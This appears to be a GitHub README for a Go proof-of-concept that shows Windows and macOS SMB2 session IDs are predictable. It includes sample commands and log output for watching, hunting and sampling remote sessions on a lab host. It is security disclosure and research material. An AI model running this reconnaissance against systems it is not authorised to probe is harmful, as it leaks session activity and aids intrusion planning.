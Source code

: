 # SMB2 Predictable Session ID Demonstration

Microsoft Windows and Apple macOS use predictable Session IDs for SMB2 sessions. This code
demonstrates how to predict these IDs and determine some information about remote sessions.

Please see this blog post for more information:

- https://www.runzero.com/2020/03/smb2-session-prediction-consequences/

On Windows the Signature field of the returned SESSION_SETUP response is signed with the
original remote session key. This seems bad, but doesn't appear to be exploitable, as the
input to this key includes a client and server challenge (among other fields), that are
not visible as a remote third-party.

On newer macOS systems (10.15) the smbd Session ID increments by 1, which leaks session activity, but Session Bind requests fail and no information about the active sessions is obtained.

On Samba-based systems, the Session IDs are not predictable.

The predictable session IDs have been in place for years and seem to be a design choice.

The session binding and signature calculation process is well-documented:
 - Handle of session binding requests: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/5ed93f06-a1d2-4837-8954-fa8b833c2654
 - Signature calculation: https://docs.microsoft.com/en-us/archive/blogs/openspecification/smb-2-and-smb-3-security-in-windows-10-the-anatomy-of-signing-and-cryptographic-keys


## Remote Session Monitoring

```
$ go run main.go 192.168.0.220 watch

2020/03/28 16:16:31 192.168.0.220: determining the session cycle for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6054627286627 ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm 
smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c328000002d smb.Signing:enabled smb.Status:0xc0000016]

2020/03/28 16:16:48 192.168.0.220: cycle found after 205 requests: fffffffffffffffc-fffffffffffffff0-fffffffff800004c-7ffffcc-ffffffffcc000030-33ffffd4-fffffffffffffff0-18-14-fffffffffc00001c-fffffffff8000014-bffffc4-4-fffffffff8000028-ffffffffd000001c-37ffffb4-1c-fffffffffc000034-ffffffffc3ffffa8-40000030-c-fffffffff8000008-7fffffc-ffffffd6cfffffd4-2930000038-ffffffffebffffd0-14000034-3ffff8c-8-4-ffffffff5c000038-a3ffffd4        

2020/03/28 16:16:48 192.168.0.220: watching for new sessions...
2020/03/28 16:16:54 192.168.0.220: SESSION 0x00002c329c000011 is EXPIRED 
2020/03/28 16:16:59 192.168.0.220: SESSION 0x00002c329c000031 is ACTIVE dialect:0x0311 sig:526ec3d5a65947888677c43fee02604f
2020/03/28 16:17:03 192.168.0.220: SESSION 0x00002c329c000049 is EXPIRED 
```

## Remote Session Hunting

```
$ go run main.go 192.168.0.220 hunt

2020/03/29 21:47:21 192.168.0.220: warning: hunt mode is unreliable and unlikely to find older sessions

2020/03/29 21:47:21 192.168.0.220: determining the session cycle for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6063d88af7af5 ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm 
smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c3880000069 smb.Signing:enabled smb.Status:0xc0000016]

2020/03/29 21:47:23 192.168.0.220: cycle found after 129 requests: ffffffffc8000014-37ffffe8-ffffffd6cfffffd8-2930000038-ffffffffebffffd0-14000034-3ffff8c-ffffffff5c000044-a3ffffc4-10-fffffffffffffff4-8-fffffffffffffff0-fffffffff800004c-7ffffcc-ffffffffcc000030-33ffffc4-10-1c-fffffffffc00001c-3ffffdc-fffffffff8000028-7ffffd4-fffffffffffffffc-1c-ffffffffffffffe0-fffffffffc000054-ffffffffc3ffffa8-34000048-bffffe8-fffffffff8000014-7fffffc
2020/03/29 21:47:23 192.168.0.220: hunting for existing sessions...
2020/03/29 21:47:25 192.168.0.220: sent 1000 requests (2c37e4000041)
```

## Remote Session ID Sampling

```
$ go run main.go 192.168.0.220 sample

2020/03/29 21:47:50 192.168.0.220: sample 100 session IDs for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6063d9a0b8f3e ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c3898000061 smb.Signing:enabled smb.Status:0xc0000016]

2020/03/29 21:47:50 0x00002c3898000061
2020/03/29 21:47:50 0x00002c0f68000039
2020/03/29 21:47:50 0x00002c3898000071
2020/03/29 21:47:50 0x00002c3884000041
2020/03/29 21:47:50 0x00002c3898000075
2020/03/29 21:47:50 0x00002c389c000001
2020/03/29 21:47:50 0x00002c37f8000045
```